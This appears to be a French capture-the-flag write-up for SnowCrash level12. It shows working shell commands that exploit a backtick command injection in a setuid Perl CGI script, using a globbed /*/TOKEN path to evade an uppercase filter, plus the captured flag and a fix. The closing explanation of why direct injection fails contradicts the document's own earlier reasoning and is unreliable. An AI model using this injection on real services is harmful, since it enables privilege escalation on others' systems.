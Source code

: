 # README - Exploitation du script level12.pl (CGI Perl)

## Étapes suivies pour obtenir le Flag12

### 1. Identification des fichiers

Le répertoire contient un fichier principal :

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

- **`level12.pl`** : Un script Perl CGI exécutable avec permissions `setuid` et `setgid`, s'exécutant avec les privilèges de l'utilisateur `flag12`. Il implémente un serveur web simple sur le port 4646.

### 2. Analyse du script `level12.pl`

En lisant le script avec `cat level12.pl`, on observe :

- Il crée un serveur CGI sur `localhost:4646` et accepte les paramètres `x` et `y` via `param()`.
- La fonction `t()` exécute : `@output = `egrep "^$xx" /tmp/xd 2>&1`;` pour rechercher une ligne dans `/tmp/xd` commençant par `$xx` (basé sur `param("x")` après sanitization).
- Le serveur tourne déjà avec les droits de `flag12` (vérifiable avec `netstat -tlnp | grep 4646`).

Test simple :
```bash
level12@SnowCrash:~$ curl localhost:4646/?x=test&y=test
.
```

### 3. Exploitation de la vulnérabilité

La vulnérabilité réside dans l'utilisation des backticks dans la ligne `@output = `egrep "^$xx" /tmp/xd 2>&1`;`, où `$xx` (dérivé de `param("x")`) est inséré directement dans une commande shell sans échappement suffisant. Bien que le sanitization (`tr/a-z/A-Z/` et `s/\s.*//`) limite les entrées aux majuscules et supprime tout après le premier espace, les backticks permettent d'exécuter des commandes arbitraires en injectant une sous-commande (ex. : via `` ` ``).

- Le serveur possède les privilèges de `flag12`, et l'utilisation d'un fichier comme `/tmp/TOKEN` avec un wildcard (`/*/TOKEN`) permet d'exécuter son contenu (ex. : `getflag > /tmp/flag12`) avec ces privilèges, capturant ainsi le token.

### 4. Injection de commande

Crée un fichier avec une commande :
```bash
level12@SnowCrash:~$ echo 'getflag > /tmp/flag12' > /tmp/TOKEN
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/TOKEN`'
..level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Exemple avec élévation de privilèges :
```bash
level12@SnowCrash:~$ echo 'whoami > /tmp/who' > /tmp/TOKEN
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/TOKEN`'
..level12@SnowCrash:~$ cat /tmp/who
flag12
```

### 5. Passage à l'utilisateur suivant

Utilise le mot de passe récupéré pour passer directement à `level13` (si applicable) :
```bash
level12@SnowCrash:~$ su level13
Password: g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$
```

### Vulnérabilité expliquée

Le script Perl utilise des backticks (`@output = `egrep "^$xx" /tmp/xd 2>&1`;`) pour exécuter une commande shell avec l'input utilisateur (`$xx` basé sur `param("x")`) non suffisamment sanitizé. Bien que `tr/a-z/A-Z/` et `s/\s.*//` limitent les entrées (majuscules uniquement, suppression après espace), l'injection de `` `/*/TOKEN` `` permet d'exécuter le contenu de `/tmp/TOKEN` comme une commande. Les permissions `setuid/setgid` élèvent les privilèges à `flag12`, permettant d'exécuter `getflag` avec succès. Une correction impliquerait d'échapper l'input (ex. : `quotemeta($xx)`) ou d'éviter les backticks au profit d'une exécution contrôlée (ex. : utiliser une bibliothèque Perl native).

---

### Explications supplémentaires
- **Wildcards** : Le wildcard `/*/TOKEN` est évalué par le shell pour trouver `/tmp/TOKEN`, et son contenu (`getflag > /tmp/flag12` ou `whoami > /tmp/who`) est exécuté, exploitant la vulnérabilité.
- **Différence avec injection directe** : Une injection comme `` `getflag` `` échoue ou boucle car les privilèges restent ceux de `level12`, mais `/tmp/TOKEN` semble contourner cette restriction, peut-être grâce à une logique spécifique dans `level12.pl`.
